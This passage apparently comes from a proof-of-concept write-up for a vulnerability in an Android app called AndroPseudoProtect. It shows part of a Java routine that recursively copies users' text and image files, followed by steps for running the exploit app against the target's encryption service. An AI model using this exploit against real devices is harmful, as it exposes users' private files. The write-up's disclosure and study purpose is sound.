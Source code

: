 ```java
                // Recursively copy folders
                copyMatchingFiles(file, destDir);
            } else if (file.getName().endsWith(".txt")
                    || file.getName().endsWith(".jpg")
                    || file.getName().endsWith(".jpeg")
                    || file.getName().endsWith(".png")) {

                try (InputStream in = new FileInputStream(file);
                     OutputStream out = new FileOutputStream(new File(destDir, file.getName()))) {

                    byte[] buffer = new byte[4096];
                    int length;
                    while ((length = in.read(buffer)) > 0) {
                        out.write(buffer, 0, length);
                    }

                    Log.d("FileCopy", "Copied: " + file.getAbsolutePath());
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }
    }

}
```

<br />

**Exploitation steps**

1. Launch the vulnerable target application.
2. In the app, click **Start Security** to trigger the file-encryption service.
3. Open the exploit application, grant the requested permissions, then press **AndroPseudoProtect Exploit**.


